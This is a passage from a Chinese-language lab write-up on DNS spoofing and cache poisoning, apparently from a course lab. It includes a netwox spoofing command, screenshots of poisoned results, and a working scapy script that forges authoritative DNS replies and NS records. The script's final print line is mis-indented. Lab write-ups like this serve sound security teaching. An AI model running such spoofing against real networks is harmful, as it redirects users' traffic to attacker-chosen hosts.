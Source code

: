 

###  Task 5: Directly Spoofifing Response to User

在攻击机中启动

```shell
kali@kali:~$ sudo netwox 105 -h "mail.example.net" -H "1.1.1.1" -a "ns.example.com" -A "1.1.1.1" -f "src host 192.168.2.191"
```

在受害机中运行`dig mail.example.net`

![image-20201022171956185](https://gitee.com/ethustdout/pics/raw/master/img/image-20201022171956185.png)

可以看到被映射到了`1.1.1.1`



但是对于已经被DNS解析过的域名，这个攻击方法不起作用

### Task 6: DNS Cache Poisoning Attack

在攻击机与受害机中

![image-20201022173718321](https://gitee.com/ethustdout/pics/raw/master/img/image-20201022173718321.png)

在`DNS`的`wireshark`中

![image-20201022173641482](https://gitee.com/ethustdout/pics/raw/master/img/image-20201022173641482.png)

在DNS缓存中，域名的ip地址被攻击机欺骗到`1.1.1.1`

![image-20201022173829890](https://gitee.com/ethustdout/pics/raw/master/img/image-20201022173829890.png)



###  Task 7: DNS Cache Poisoning: Targeting the Authority Section

`scapy`代码

```python
#coding=utf-8
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='1.1.1.1')
        NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='csu.edu.cn')
        Addsec1 = DNSRR(rrname='csu.edu.cn', type='A', ttl=259200, rdata='2.2.2.2')
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,qdcount=1, ancount=1, nscount=1, arcount=1,an=Anssec, ns=NSsec1 ,ar=Addsec1)
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
		print("[+] got one")
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
